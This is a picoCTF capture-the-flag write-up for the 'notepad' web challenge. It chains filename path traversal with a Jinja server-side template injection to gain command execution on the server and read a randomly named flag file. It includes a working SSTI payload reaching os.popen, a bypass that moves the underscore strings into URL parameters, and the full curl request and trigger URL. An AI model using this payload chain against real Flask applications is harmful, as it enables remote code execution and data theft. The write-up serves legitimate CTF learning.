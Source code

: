 # Web - notepad
## Writeup Author: kebabulon

---

### Task
This note-taking site seems a bit off.  
[notepad.mars.picoctf.net](https://notepad.mars.picoctf.net/)

![caas site](./assets/images/notepad_1.png)

Attached files:
```
-- notepad.tar
   |-- app.py
   |-- Dockerfile  
   |-- solve.txt  
   |-- static
   |-- templates
       |-- errors 
       |   |-- bad_content.html
       |   |-- long_content.html 
       |-- index.html
```

---

### Solution

First of all, I had to find where the flag is.  
It is created in **Dockerfile**:  
```Dockerfile
FROM python:3.9.2-slim-buster

RUN pip install flask gunicorn --no-cache-dir

WORKDIR /app
COPY app.py flag.txt ./
COPY templates templates
RUN mkdir /app/static && \
    chmod -R 775 . && \
    chmod 1773 static templates/errors && \
    mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt

CMD ["gunicorn", "-w16", "-t5", "--graceful-timeout", "0", "-unobody", "-gnogroup", "-b0.0.0.0", "app:app"]

```
It is in ```app/``` directory and has a random name.  
We would likely need a RCE to get it. (foreshadowing)

The next step is finding an attack point. Lets look at **app.js**:

```js
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

We can see that the notepad file's name is based on the first 128 characters of it.  
That means there is a possibility of writting the notepad file somewhere else using **\.\.** .  

Something to note is that there are checks in case of ```_``` and ```/``` in  the contents of the file.  
We will have to find a way to bypass that >:)

Lets check **index.html**:
```jinja
<!doctype html>
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```

Oh boy... ``` include "errors/" + error + ".html" ignore missing ```  

Since we can write the notepad file anywhere, lets write it in ```errors/``` and include an RCE with it!  

#### Figuring out the RCE

After a quick google search, i found this [Jinja RCE](https://secure-cookie.io/attacks/ssti/):
```jinja
{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
It looks complicated, but it is actually not so complicated!

- ```"foo".__class__.__base__.__subclasses__()``` - array of every class that is available to ```str``` class
- ```[182]``` - index of a class that imports ```os``` ( pretty handy! )
- ```.__init__.__globals__['sys'].modules['os']``` - gets the ```os``` module from the class's globals
- ```.popen("ls").read()``` - executes ```ls``` in bash and returns the output

This *would've* worked great, but we cannot use ```_``` in notepad's contents.  
Instead, we can get them from url's parameters with ```request.args.parameter```:
```jinja
{{"foo"[request.args.c][request.args.b][request.args.s]()[182][request.args.i][request.args.g]["sys"].modules["os"].popen("ls").read()}}
```
The url's parameters will look like this:
```
c=__class__&s=__subclasses__&b=__base__&i=__init__&g=__globals__
```

Alright, now lets construct our post request using curl:

```bash
curl --form "content=..\\templates\\errors\\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{\"f\"[request.args.c][request.args.b][request.args.s]()[182][request.args.i][request.args.g][\"sys\"].modules[\"os\"].popen(\"ls\").read()}}" "https://notepad.mars.picoctf.net/new" -s -o /dev/null -w %header{location}
```

I put a bunch of ```a```s so the filename is not the RCE itself.  

That curl request should return the url of the notepad file:

```
$ http://notepad.mars.picoctf.net/templates/errors/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-NIqZyt10lgw.html
```

Success! The file is in ```errors/```  
Now, lets test if it works.

The url looks like this:
```
https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-NIqZyt10lgw&c=__class__&s=__subclasses__&b=__base__&i=__init__&g=__globals__
```

![notepad site](./assets/images/notepad_2.png)

"Finally!!!" - Me, like an hour ago.  

Anyways, the flag's filename is ```flag-c8f5526c-4122-4578-96de-d7dd27193798.txt```  
To print it out, we just repeat everything we did above but change the command to:  
```bash
cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt
```

![notepad site](./assets/images/notepad_3.png)

And we get the flag.

---

### Flag

```
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```
